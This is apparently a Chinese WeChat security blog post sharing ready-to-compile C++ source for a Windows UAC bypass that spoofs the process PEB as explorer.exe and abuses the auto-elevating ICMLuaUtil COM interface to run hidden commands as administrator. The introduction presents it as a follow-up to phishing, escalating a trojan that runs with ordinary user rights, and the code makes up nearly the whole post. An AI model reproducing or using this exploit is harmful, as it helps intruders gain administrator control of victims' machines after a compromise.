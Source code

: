 #  Bypass Uac分享

原创 小黑  [ 小黑说安全 ](javascript:void\(0\);)

**小黑说安全** ![]()

微信号 Xxia0hei04

功能介绍 攻防、审计、物联网、车联网研究

____

___发表于_

收录于合集

## **前言  
**

  

  

  

  

  

先介绍一个bypass
uac的场景，在gf的场景，如果目标的外网资产打不动的话，一般情况就会采用社工钓鱼，但是一般情况下目标点击我们的马子通常是以当前用户的普通权限运行的(当然也可以在做马的时候设置UAC执行级别为requireAdministrator)，如果目标用户在管理员组那就可以通过uac来提权了，那下面就分享一个bypass
uac的代码，通过伪PEB+ICMLuaUtil，X86的选择好直接复制粘贴生成。

##  **代码**

  

  

  

  

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     #include "windows.h"#include "winternl.h"#include <iostream>  
    using namespace std;  
    // 定义接口 ICMLuaUtil 和其方法typedef interface ICMLuaUtil ICMLuaUtil;typedef struct ICMLuaUtilVtbl {  BEGIN_INTERFACE    HRESULT(STDMETHODCALLTYPE* QueryInterface)(      __RPC__in ICMLuaUtil* This,      __RPC__in REFIID riid,      _COM_Outptr_  void** ppvObject);  ULONG(STDMETHODCALLTYPE* AddRef)(    __RPC__in ICMLuaUtil* This);  ULONG(STDMETHODCALLTYPE* Release)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* SetRasCredentials)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* SetRasEntryProperties)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* DeleteRasEntry)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* LaunchInfSection)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* LaunchInfSectionEx)(    __RPC__in ICMLuaUtil* This);  
      // incomplete definition  HRESULT(STDMETHODCALLTYPE* CreateLayerDirectory)(    __RPC__in ICMLuaUtil* This);  
      HRESULT(STDMETHODCALLTYPE* ShellExec)(    __RPC__in ICMLuaUtil* This,    _In_     LPCTSTR lpFile,    _In_opt_  LPCTSTR lpParameters,    _In_opt_  LPCTSTR lpDirectory,    _In_      ULONG fMask,    _In_      ULONG nShow);  END_INTERFACE} *PICMLuaUtilVtbl;  
    interface ICMLuaUtil {  CONST_VTBL struct ICMLuaUtilVtbl* lpVtbl;};  
      
    // 以管理员权限运行指定的命令HRESULT RunElevated(LPCWSTR lpCmdline) {  HRESULT status = CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE);  ICMLuaUtil* CMLuaUtil = NULL;  IID xIID_ICMLuaUtil;  LPCWSTR lpIID = L"{6EDD6D74-C007-4E75-B76A-E5740995E24C}";  IIDFromString(lpIID, &xIID_ICMLuaUtil);  BIND_OPTS3 bop;  
      ZeroMemory(&bop, sizeof(bop));  
      if (!SUCCEEDED(status))    return status;  
      // 使用CoGetObject方法获取ICMLuaUtil接口的实例  // 这里尝试获取Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}的对象实例，该接口通常用于执行以管理员权限运行的操作  bop.cbStruct = sizeof(bop);  bop.dwClassContext = CLSCTX_LOCAL_SERVER;  status = CoGetObject(L"Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}", (BIND_OPTS*)&bop, xIID_ICMLuaUtil, (VOID**)&CMLuaUtil);  
      if (status != S_OK)    return status;  
      // 构造带有 "/c" 命令的命令行  wstring cmdLineWithC = L"/c " + wstring(lpCmdline);  
      // 以隐藏方式运行指定的命令  status = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, L"cmd.exe", cmdLineWithC.c_str(), NULL, SEE_MASK_DEFAULT, SW_HIDE);  
      if (CMLuaUtil != NULL) {    CMLuaUtil->lpVtbl->Release(CMLuaUtil);  }  
      return status;}  
      
    // 修改进程参数和Ldr的内容，以运行指定路径的应用程序VOID ChangeProcessParametersAndLdr(PUNICODE_STRING name, LPCWSTR lpExplorePath) {  typedef VOID(WINAPI* RtlInitUnicodeString)(_Inout_  PUNICODE_STRING DestinationString, _In_opt_ PCWSTR SourceString);  RtlInitUnicodeString pfnRtlInitUnicodeString = NULL;  
      HMODULE hDll = LoadLibrary(L"ntdll.dll");  pfnRtlInitUnicodeString = (RtlInitUnicodeString)GetProcAddress(hDll, "RtlInitUnicodeString");  
      // 使用RtlInitUnicodeString方法来初始化UNICODE_STRING结构体，修改其内容  pfnRtlInitUnicodeString(name, lpExplorePath);}  
    int main() {  int nArgs = 0;  LPWSTR* lpParam = NULL;  HRESULT status = NULL;  PPEB ppeb = NULL;  DWORD* pFullDllName = NULL, pBaseDllName = NULL;  
      // 解析命令行参数，获取要运行的命令  lpParam = CommandLineToArgvW(GetCommandLine(), &nArgs);  if (nArgs <= 1) {    cout << "uacbypass.exe [cmd]";    return 0;  }  
      LPWSTR lpCmdline = *(lpParam + 1);  
      LPWSTR lpExplorePath = new WCHAR[MAX_PATH];  GetWindowsDirectory(lpExplorePath, MAX_PATH);  lstrcat(lpExplorePath, L"\\explorer.exe");  
      // 获取PEB（Process Environment Block）的相关字段地址  __asm {    push eax    mov eax, fs:[0x30]    mov ppeb, eax    mov eax, [eax + 0x0c]    mov eax, [eax + 0x0c]  
        add eax, 0x24    mov pFullDllName, eax  
        sub eax, 0x24    add eax, 0x2c    mov pBaseDllName, eax  
        pop eax  }  
      // 修改进程的ImagePathName、CommandLine、FullDllName、BaseDllName字段，指向系统的explorer.exe路径  ChangeProcessParametersAndLdr(&ppeb->ProcessParameters->ImagePathName, lpExplorePath);  ChangeProcessParametersAndLdr(&ppeb->ProcessParameters->CommandLine, lpExplorePath);  ChangeProcessParametersAndLdr((PUNICODE_STRING)((unsigned char*)pFullDllName), lpExplorePath);  ChangeProcessParametersAndLdr((PUNICODE_STRING)((unsigned char*)pBaseDllName), lpExplorePath);  
      // 以管理员权限运行指定的命令  status = RunElevated(lpCmdline);  
      if (SUCCEEDED(status))    cout << "success!";  
      return 0;}

##  **效果**

  

  

  

  

  

  

![]()![]()

 **总结**

##

  

  

  

  

  

  

害，没啥好总结的，下课！

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


